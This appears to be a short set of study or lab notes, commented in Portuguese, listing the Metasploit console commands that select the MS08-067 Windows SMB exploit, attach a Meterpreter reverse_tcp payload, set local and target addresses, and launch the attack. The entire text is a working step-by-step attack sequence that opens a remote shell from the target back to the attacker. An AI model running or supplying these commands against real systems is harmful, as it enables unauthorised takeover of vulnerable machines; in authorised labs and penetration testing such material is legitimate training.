 # Abrindo o Metasploit Framework Console
msfconsole

# Escolhendo o Exploit MS08_067
use exploit/windows/smb/ms08_067_netapi

# Setando o Meterpreter como Payload
set payload windows/meterpreter/reverse_tcp

# Mostrando as opções
options

# Setando o localhost
set LHOST <ip local>

# Setando o Alvo
set RHOST <ip target>

# Executando o exploit
exploit